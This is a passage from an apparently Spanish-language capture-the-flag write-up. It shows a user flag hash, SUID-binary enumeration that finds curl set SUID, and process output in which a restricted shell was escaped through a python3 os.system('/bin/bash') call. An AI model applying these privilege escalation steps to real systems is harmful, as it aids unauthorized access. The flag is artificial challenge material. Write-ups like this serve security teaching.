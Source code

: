 Y ahora si podremos hacer los binario y todo, ya que nuestro `PATH` estaria "arreglado", por lo que leeremos la flag.

> user.txt

```
04aee8d6f21f746d0655233aa1d1541a
```

## Escalate Privileges

Si vemos que permisos `SUID` tenemos, veremos los siguientes.

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
1600906    336 -rwsr-xr-x   1 root     root       342632 Aug  9 04:33 /usr/lib/openssh/ssh-keysign
  1600867     36 -rwsr-xr--   1 root     messagebus    34960 Aug  9 04:33 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1200588     40 -rwsr-xr-x   1 root     root          40664 Apr  9 09:01 /usr/bin/newgrp
  1600800     56 -rwsr-xr-x   1 root     root          55680 Aug  9 04:33 /usr/bin/su
  1600735     52 -rwsr-xr-x   1 root     root          51584 Aug  9 04:33 /usr/bin/mount
  1600847     40 -rwsr-xr-x   1 root     root          39296 Aug  9 04:33 /usr/bin/umount
  1200457     72 -rwsr-xr-x   1 root     root          72792 Apr  9 09:01 /usr/bin/chfn
  1200463     44 -rwsr-xr-x   1 root     root          44760 Apr  9 09:01 /usr/bin/chsh
  1200524     76 -rwsr-xr-x   1 root     root          76248 Apr  9 09:01 /usr/bin/gpasswd
  1200599     64 -rwsr-xr-x   1 root     root          64152 Apr  9 09:01 /usr/bin/passwd
  1600801    272 -rwsr-xr-x   1 root     root         277936 Apr  8 16:50 /usr/bin/sudo
  1600673    292 -rwsr-xr-x   1 root     root         297288 Aug  9 04:33 /usr/bin/curl
```

Vemos que tenemos permisos `SUID` en el binario `curl`, pero si investigamos mas, vemos en los procesos que se esta ejecutando lo siguiente.

```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1 31.2  0.0   2800  1920 ?        Rs   14:26   5:27 /bin/sh -c service smbd start && service ssh start && while true; do /bin/bash /usr/local/bin/bash.sh; done
root          15  0.1  0.1  87360 16916 ?        Ss   14:26   0:01 /usr/sbin/smbd -D
root          24  0.0  0.0  12020  3720 ?        Ss   14:26   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          29  0.0  0.0  84832  6348 ?        S    14:26   0:00 smbd: notifyd .
root          32  0.0  0.0  84840  6092 ?        S    14:26   0:00 smbd: cleanupd 
root      663904  0.0  0.0  14528  7624 ?        Ss   14:39   0:00 sshd: rabol [priv]
rabol     670962  0.5  0.0  14788  6576 ?        S    14:39   0:01 sshd: rabol@pts/0
rabol     671026  0.0  0.0   5016  3840 pts/0    Ss   14:39   0:00 -rbash
rabol     700550  0.0  0.0  15088  9088 pts/0    S    14:39   0:00 python3 -c import os; os.system("/bin/bash")
rabol     700561  0.0  0.0   2800  1792 pts/0    S    14:39   0:00 sh -c -- /bin/bash
rabol     700563  0.0  0.0   5016  3968 pts/0    S    14:39   0:00 /bin/bash
rabol     911756  0.0  0.0   9580  4864 pts/0    R+   14:43   0:00 ps -aux
root      911759  0.0  0.0      0     0 ?        R    14:43   0:00 [bash]
```
